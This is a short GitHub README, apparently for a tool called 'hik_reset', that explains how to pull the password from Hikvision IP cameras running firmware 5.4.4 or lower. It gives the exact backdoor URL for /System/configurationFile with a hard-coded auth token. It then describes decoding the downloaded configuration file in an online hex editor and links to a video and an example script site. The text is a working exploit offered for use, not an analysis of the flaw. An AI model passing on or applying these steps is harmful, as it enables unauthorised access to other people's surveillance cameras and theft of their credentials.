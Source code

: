 # hik_reset
Hikvision backdoor IP camera

Requirements: Ubuntu 18, php 7, Apache, OpenJDK 8

<p><b>You can view the password from the camera without even resetting its settings
<p>List of requirements</b>

<p>1. The firmware version on the camera must be 5.4.4 or lower. Use SADP Tool to check
<p>2. Your PC or laptop must be on the same local network as the camera
<h2>Instructions</h2>

<p>1. Download and install the SADP Tool program on your PC or laptop
<br><a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>Download link</b></a>

<p>2. Go to the following IP address in your browser
<br>http://<i><b>camera_ip</i></b>/System/configurationFile?auth=YWRtaW46MTEK
<br>Where, camera_ip - IP address of the camera. You can find out IP using the <a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>SADP program</b></a>



<p>3. The file that you downloaded from the server (the file will have the name 6bf2bc3e2e31b280d83051dfa7444e22plaintextOutput, the name changes every time) should be uploaded to the site with the online HEX editor
<br><a href="https://hexed.it/" target="_blank" ><b>https://hexed.it</b></a>
<p>4.Use the camera web interface and Internet Explorer to enter the camera

Manual
https://www.youtube.com/embed/4PJXuYcMjMY

<b><center>An example of the script
http://hik.cctv-world.space/en.html
